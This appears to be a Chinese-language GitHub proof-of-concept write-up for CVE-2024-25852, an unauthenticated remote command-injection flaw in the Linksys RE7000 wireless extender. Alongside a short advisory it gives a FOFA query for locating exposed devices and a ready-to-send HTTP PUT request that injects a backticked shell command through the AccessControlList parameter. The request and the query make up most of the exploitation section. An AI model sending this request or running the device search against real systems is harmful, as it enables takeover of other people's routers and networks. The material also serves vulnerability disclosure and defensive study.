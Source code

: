 # CVE-2024-25852

> **Created By：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Linksys RE7000无线扩展器 RCE漏洞



## 0x01 简介

Linksys是贝尔金旗下一个销售家用与小型业务用网络产品的部门，主要经营宽带与无线路由器。RE7000是Linksys推出的一款新型双频AC1900无线扩展器，具有无缝漫游功能。

## 0x02 漏洞描述

Linksys RE7000无线扩展器在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。未经身份验证的远程攻击者可以利用该漏洞获取设备管理员权限。

## 0x03 影响范围

```bash
RE7000 v2.0.9
RE7000 v2.0.11
RE7000 v2.0.15
```

## 0x04 FOFA语法

```bash
body="/login.shtml?ran="
```

## 0x05 漏洞复现

```bash
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

![Untitled](image/Untitled.png)
